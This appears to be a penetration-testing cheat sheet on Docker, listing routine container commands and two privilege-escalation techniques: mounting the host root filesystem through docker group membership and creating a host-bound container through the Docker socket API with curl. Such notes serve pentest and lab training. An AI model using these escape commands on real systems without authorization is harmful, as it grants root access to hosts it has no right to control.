 ```yaml
---
title: "Docker"
date: 2024-7-3
tags: ["docker", "privesc", "container", "escape", "dive"]
---
```


---
### Basic Commands

<div>

```bash
# Show all running processes
sudo docker ps -a
```

```bash
# Show all images
sudo docker images -a
```

```bash
# Stop all processes
sudo docker stop $(sudo docker ps -a -q)
```

```bash
# Remove all processes
sudo docker rm -vf $(sudo docker ps -a -q)
```

```bash
# Remove all images
sudo docker rmi -f $(sudo docker images -aq)
```

```bash
# Shell in docker
sudo docker exec -it <CONTAINER_NAME> sh
```

```bash
# Copy file from host to container
sudo docker cp <HOST_FILE_PATH> <CONTAINER_ID>:<CONTAINER_FILE_PATH>
```

```bash
# Copy file from container to host
sudo docker cp <CONTAINER_ID>:<CONTAINER_FILE_PATH> <HOST_FILE_PATH>
```

```bash
# Copy folder from host to container
sudo docker cp <HOST_FOLDER_PATH>/. <CONTAINER_ID>:<CONTAINER_TARGET_PATH>
```

```bash
# Copy folder from container to host
sudo docker cp <CONTAINER_ID>:<CONTAINER_FOLDER_PATH>/. <HOST_TARGET_PATH>
```

</div>

<br>

---

### Explore Docker image

{{< tab set1 tab1 active >}}dive{{< /tab >}}
{{< tabcontent set1 tab1 >}}

<div>

```bash
dive docker-archive://image.tar
```

</div>

<small>*Ref: [dive](https://github.com/wagoodman/dive)*</small>

{{< /tabcontent >}}

<br>

---

### Abuse #1: Docker group

<div>

```bash
# List images
docker images
```

```bash
# Mount host root filesystem
docker run -v /:/mnt -it <IMAGE_NAME> bash
```

```bash
# Check
ls /mnt/root
```

</div>

<br>

---

### Abuse #2: Docker API

<div>

```bash
# Show running containers
curl -s --unix-socket /var/run/docker.sock http://localhost/images/json
```

```bash
# Create container
curl -s -X POST -H 'Content-Type: application/json' --data-binary '{"Image": "<IMAGE_NAME>:latest","HostConfig": {"Binds": ["/:/r"]}, "Cmd": ["/bin/sh", "-c", "ls -la /r/root/"], "Tty": true}' --unix-socket /var/run/docker.sock http://localhost/containers/create
```

```bash
# Start container
curl -s -X POST -H 'Content-Type: application/json' --unix-socket /var/run/docker.sock http://localhost/containers/<CONTAINER_ID>/start
```

```bash
# Show results
curl -s --unix-socket /var/run/docker.sock "http://localhost/containers/<CONTAINER_ID>/logs?stderr=1&stdout=1"
```

</div>

<br>